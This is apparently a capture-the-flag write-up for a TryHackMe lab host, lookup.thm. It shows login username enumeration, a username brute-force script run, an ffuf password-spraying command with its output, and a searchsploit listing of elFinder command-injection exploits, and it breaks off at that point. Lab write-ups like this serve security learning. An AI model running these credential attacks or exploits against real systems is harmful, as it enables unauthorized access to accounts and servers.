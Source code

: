 - On login page, when I typed admin credentials and random credentials I got 2 different responses.

  ```
  admin:admin

  Wrong password. Please try again.
  Redirecting in 3 seconds.
  
  bimbo:test
  
  Wrong username or password. Please try again.
  Redirecting in 3 seconds.
  ```
  
- Here, I tried SQLI and it didn't work. Then, I wrote a script to brute force some possible usernames. Keep in mind, script took a while to find one username. Machine also expired like 2 times while I was doing this room....

  ```
  python3 brute.py http://lookup.thm/login.php /seclists/Usernames/Names/names.txt

  [+] Loaded 10177 usernames from /seclists/Usernames/Names/names.txt
  [*] Starting brute-force...
  
  [+] Valid username found: admin
  [+] Valid username found: jose
  ```

- Now I used `hydra` to brute force a password, but it couldn't do it, so I switched to `ffuf` and found a password. Use Burp to catch all of the parameters.

  ```
  ffuf -w /seclists/Passwords/Leaked-Databases/fortinet-2021_passwords.txt  -X POST -u http://lookup.thm/login.php -d 'username=jose&password=FUZZ' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8

  password123             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 49ms]
  password123             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 49ms]
  password123             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 48ms]
  password123             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 49ms]
  password123             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 49ms]
  password123             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 49ms]
  password123             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 49ms]
  ```
  
---

## ⚙️ Shell Access

- After logging in you will be redirected to subdomain `files.lookup.thm`. Add it to `/etc/hosts` and then you can see the page `http://files.lookup.thm/elFinder/elfinder.html#elf_l1_Lw`.

- Then I looked for some `ElFinder` exploits and found one in Metasploit.

  ```
  searchsploit elfinder     
  ----------------------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                                     |  Path
  ----------------------------------------------------------------------------------- ---------------------------------
  elFinder 2 - Remote Command Execution (via File Creation)                          | php/webapps/36925.py
  elFinder 2.1.47 - 'PHP connector' Command Injection                                | php/webapps/46481.py
  elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)        | php/remote/46539.rb
  ```